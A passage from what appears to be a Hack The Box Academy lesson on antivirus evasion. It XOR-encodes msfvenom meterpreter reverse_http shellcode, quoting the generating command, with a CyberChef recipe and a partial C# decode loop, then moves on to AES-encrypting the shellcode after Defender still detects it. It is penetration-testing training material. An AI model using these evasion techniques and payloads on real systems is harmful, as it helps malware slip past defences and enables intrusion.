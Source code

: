 We can use this [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')XOR(%7B'option':'Hex','string':'5c'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)) to `XOR` our shellcode with the value `0x5C` (make sure to get rid of new lines, as this breaks the recipe).

![image](https://academy.hackthebox.com/storage/modules/254/2/37.png)

We can replace the shellcode in the program with the output, and then add a short loop which `XORs` each byte with `0x5C` just before writing the shellcode to memory.

```csharp
<SNIP>

// XOR'd shellcode (msfvenom -p windows/x64/meterpreter/reverse_http LHOST=... LPORT=... -f csharp)
byte[] buf = new byte[] { <SNIP> }

// Allocate RW space for shellcode
<SNIP>

// Decrypt shellcode
int i = 0;
while (i < buf.Length)
{
    buf[i] = (byte)(buf[i] ^ 0x5c);
    i++;
}

// Copy shellcode into allocated space
<SNIP>

```

Although simple `XOR` encryption may have been enough to get past `antivirus` signature scans in the past, when we try to compile the program and then run `ThreatCheck` against it once more, we see that `Microsoft Defender Antivirus` still detects the shellcode:

![image](https://academy.hackthebox.com/storage/modules/254/2/38.png)

#### AES Encryption

An intriguing aspect of bypassing antivirus solutions is that it necessitates creativity, given the absence of a definitive method for achieving a specific objective—no "right" or "wrong" methods exist. In this case, `XOR-encrypting` the shellcode is not enough to bypass `Microsoft Defender Antivirus`, therefore, let's try something different, like `AES-encrypting` the shellcode instead. We can use another [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')AES_Encrypt(%7B'option':'Hex','string':'1f768bd57cbf021b251deb0791d8c197'%7D,%7B'option':'Hex','string':'ee7d63936ac1f286d8e4c5ca82dfa5e2'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)To_Base64('A-Za-z0-9%2B/%3D')) to `AES encrypt` the shellcode (using an arbitrary key and IV).

![image](https://academy.hackthebox.com/storage/modules/254/2/39.png)

After copying the output, the C# program will require a bit more modification than a simple loop, but the changes are pretty straight forward:
